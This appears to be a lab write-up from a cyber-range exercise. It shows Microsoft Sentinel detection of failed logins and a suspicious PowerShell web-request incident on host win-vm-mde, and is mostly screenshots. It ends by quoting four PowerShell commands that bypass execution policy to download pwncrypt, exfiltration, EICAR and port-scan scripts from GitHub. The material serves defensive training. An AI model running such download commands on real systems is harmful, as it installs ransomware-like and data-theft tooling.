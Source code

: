 <img width="550" alt="Pasted image 20250612200103" src="https://github.com/user-attachments/assets/fc28d953-0db0-45d8-8703-e77b86ab37a5" />

<img width="550" alt="Pasted image 20250612200132" src="https://github.com/user-attachments/assets/efa3ff45-9e78-472f-ba24-eeb4ced3c507" />

<img width="412" alt="Pasted image 20250612200149" src="https://github.com/user-attachments/assets/976cd3f4-cba0-4e28-9748-356c771a1453" />

![image](https://github.com/user-attachments/assets/61e1553f-5790-4b01-aa4d-ef605a3a8613)

Microsoft Sentinel will execute the query to log any accounts that failed login attempts on the `win-vm-mde` host machine. In the following Incidents diagram, two entities will be displayed: the target device `(DeviceName)` under attack, and the remote IP addresses `(RemoteIP)` attempting the login.


![image](https://github.com/user-attachments/assets/948e20eb-be81-4d74-988e-39b82bcd0f32)

After the rule was created, we see two entities: the host machine `win-vm-mde` and the IP address `193.37.69.105`. In our initial findings, there were 4 total IP addresses including this one that reportedly originated from Russia. They all occurred within the 5-day window and yet did not appear as separate entities. 

![image](https://github.com/user-attachments/assets/ec4ad430-8aa5-4ed6-b2bf-04a958ead84d)

<img width="1521" alt="Screenshot 2025-06-12 203510" src="https://github.com/user-attachments/assets/ddf32244-2289-4812-86a3-2c030fdaa875" />

<img width="1507" alt="Screenshot 2025-06-12 203844" src="https://github.com/user-attachments/assets/8bcf4bfb-9856-401d-aebd-9c92dc8dee5a" />


![image](https://github.com/user-attachments/assets/a7b19096-eba4-4c75-b4a7-605c23cd2527)


![image](https://github.com/user-attachments/assets/8c279499-9b01-4a37-83e8-18bef1064964)


Upon investigating the triggered incident `Alert PowerShell Suspicious Web Request Rule`, it was discovered that the following PowerShell commands were run on machine `win-vm-mde`

The `Alert PowerShell Suspicious Web Request Rule` incident was triggered by 1 user, but downloaded 4 different scripts with 4 different commands.

win-vm-mde
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
